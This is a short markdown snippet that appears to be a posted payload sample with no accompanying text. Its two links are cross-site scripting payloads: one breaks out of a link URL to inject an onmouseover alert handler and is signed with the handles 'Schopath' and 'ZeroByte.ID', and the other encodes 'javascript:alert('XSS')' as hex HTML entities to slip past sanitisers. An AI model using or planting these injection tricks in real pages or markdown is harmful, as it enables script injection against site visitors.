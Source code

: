 

[Schopath](https://schopath.ninja/"/onmouseover="alert(/schopath/)"/x="ZeroByte.ID)
[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
